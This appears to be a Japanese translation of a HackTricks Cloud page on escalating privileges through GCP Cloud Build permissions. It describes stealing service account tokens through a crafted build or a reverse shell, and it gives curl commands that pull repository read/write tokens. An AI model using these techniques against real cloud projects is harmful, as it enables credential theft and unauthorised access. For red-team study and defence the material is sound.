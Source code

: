 # GCP - Cloudbuild Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudbuild

Cloud Buildに関する詳細情報は次を確認してください：

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

この権限を持つことで、**クラウドビルドを提出することができます**。cloudbuildマシンのファイルシステムには、**デフォルトでcloudbuildサービスアカウントのトークン**が含まれています：`<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`。ただし、cloudbuild構成内で**プロジェクト内の任意のサービスアカウントを指定することができます**。\
したがって、マシンがトークンをあなたのサーバーに外部送信するか、**その中でリバースシェルを取得してトークンを取得することができます**（トークンを含むファイルは変更される可能性があります）。

元のエクスプロイトスクリプトは[**こちらのGitHubで**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)見つけることができます（ただし、トークンを取得する場所は私には機能しませんでした）。したがって、[**脆弱な環境の作成、エクスプロイト、クリーンアップを自動化するスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh)と、cloudbuildマシン内でリバースシェルを取得して[**それを盗むためのPythonスクリプトはこちら**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py)を確認してください（コード内で他のサービスアカウントを指定する方法が見つかります）**。**

より詳細な説明については、[https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)を訪問してください。

### `cloudbuild.builds.update`

**潜在的に**この権限を持つことで、**クラウドビルドを更新し、サービスアカウントトークンを盗むことができるでしょう**。これは前の権限で行われたように（ただし、残念ながらこの執筆時点ではそのAPIを呼び出す方法が見つかりませんでした）。

TODO

### `cloudbuild.repositories.accessReadToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りアクセス トークン**を取得できます：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

この権限を持つユーザーは、リポジトリにアクセスするために使用される**読み取りおよび書き込みアクセストークン**を取得できます：

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

この権限を使用すると、**接続がアクセスできるリポジトリを取得できます:** 

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}
